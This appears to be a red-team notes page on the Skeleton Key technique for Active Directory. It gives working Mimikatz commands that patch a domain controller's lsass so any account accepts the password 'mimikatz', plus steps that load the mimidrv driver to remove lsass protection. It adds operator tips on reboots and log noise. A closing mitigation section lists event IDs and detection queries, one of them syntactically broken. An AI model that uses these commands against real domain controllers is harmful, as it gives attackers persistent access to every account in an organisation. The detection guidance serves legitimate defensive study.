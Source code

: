 # Skeleton Key

Skeleton Key is a persistence technique where it is possible to patch a Domain Controller (lsass process) so that it allows access as any user with a single password. The attack was discovered by Dell Secureworks used in a malware named the Skeleton Key Malware.

All the publicly known methods are NOT persistent across reboots.

> **RedTeam Notes**: Its not probably that a enterprise reboot the DC or kill `lsass` process.

To execute this technique domain admin privilegs are required.

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dc01.corp.local
```

So it is possible to access any machine with a valid username and `mimikatz` as password.

```powershell
Enter-PSSession -ComputerName dc01.corp.local -Credential corp\Administrator
```
> **Note**: In the skeleton key attack both passwords work at the same time, the actual password and `mimikatz` as password.

In case `lsass` is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver `mimidriv.sys` on disk of the target dc. Be careful this would be very noisy in logs.

```
mimikatz# privilege::debug
mimikatz# !+
mimikatz# !processprotect /process:lsass.exe /remove
mimikatz# misc::skeleton
mimikatz# !-
```

```
mimikatz# !misc::skeleton
```

> **The DC can not be patched twice.**

## Mitigation

We can detect the Skeleton Key attack looking the events in logs.

* System Event ID **7045**: A service was installed in the system
* Security Event ID **4673**: Sensitive Privilege Use
* Event ID **4611**: A trusted logon process has been registered with the Local Security Authority

```powershell
Get-WinEvent -FilterHashtable @{Logname='System';ID=7045} | ?{$_.message -like "*Kernel Mode Driver*"}

# Not recommended, detects only stock mimidrv
Get-WinEvent -FilterHashtable @{Logname='System';ID=7045} | ?{$_.message -like "*Kernel Mode Driver*"} -and $_.message -like "*mimidrv*"}
```
